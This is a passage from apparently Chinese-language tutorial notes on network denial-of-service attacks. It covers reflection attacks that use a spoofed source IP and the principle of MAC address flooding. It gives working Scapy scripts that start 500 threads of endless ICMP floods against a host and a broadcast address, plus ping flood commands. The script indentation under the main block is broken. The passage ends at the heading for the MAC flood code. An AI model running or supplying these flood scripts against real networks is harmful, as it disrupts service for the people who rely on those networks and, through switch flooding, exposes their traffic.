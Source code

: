 > 反射型攻击：张三要攻击李四，张三将攻击流量的源IP地址设置为王五的IP地址，李四将直接和王五通信，导致李四和王五都被攻击。如要攻击主机A，现在可以ping主机BCDEFGHIJK，但是设置ping的源地址为主机A

### 6.ICMP泛洪

```python
def icmp_flood():
    payload = "hello,world" * 50
    while True:
        send(IP(dst="192.168.101.9")/ICMP()/payload*100)
        
        
if __name__ == '__main__':
for i in range(500):
    threading.Thread(target=icmp_flood).start()
```

### 7.ICMP广播风暴

- 广播数据包

```python
def icmp_broadcast():
    payload = "hello,world" * 50
    while True:
        send(IP(dst="192.168.101.255")/ICMP()/payload*100)
        
        
if __name__ == '__main__':
for i in range(500):
    threading.Thread(target=icmp_broadcast).start()
```

### 8.使用Ping命令泛洪

- Linux中ping命令的-i参数可以设置发送时间间隔,-s设置包大小，-f设置尽最大能力发
- 将每次ping的时间间隔设置很短
- 将ping的数据包设置很大，添加负载

```cmd
ping -i 0.001 -s 2000 192.168.101.9
ping -f 192.168.101.9
```

## 二、MAC地址泛洪

### 1.攻击原理

- 定义任意数据包，发送并生成随机的MAC地址，不停地发送该数据包，该数据包会流向交换机，而此时交换机会发现源MAC地址在MAC表中不存在，交换机会将其添加到MAC表中。如果发送数据量很大，则会填满MAC表，导致新的数据包无法添加到MAC表中，此时，理论上交换机就会广播，一旦交换机进行数据广播，则会导致整个局域网地数据流量全部全员可见。
- MAC地址泛洪也存在其他情况，比如交换机崩溃，或者整个局域网无法上网等情况

### 2.使用python实现
